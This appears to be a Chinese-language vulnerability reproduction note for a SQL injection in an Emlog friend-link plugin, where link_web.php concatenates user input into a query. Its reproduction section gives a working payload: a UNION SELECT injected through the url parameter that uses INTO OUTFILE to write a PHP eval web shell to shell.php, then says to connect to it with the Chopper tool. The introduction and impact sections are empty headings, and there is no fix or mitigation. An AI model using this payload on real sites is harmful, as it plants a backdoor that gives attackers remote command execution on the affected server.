 # Emlog 友情链接自助插件存在SQL注入漏洞

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

在该插件当中的link_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![](images/15890069299356.png)


由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：


```bash
url=http://url' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 
```

之后，这条语句会正常执行，同时也会在`C:\phpstudy\www\`下生成一个`shell.php`，而且该`shell.php`中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。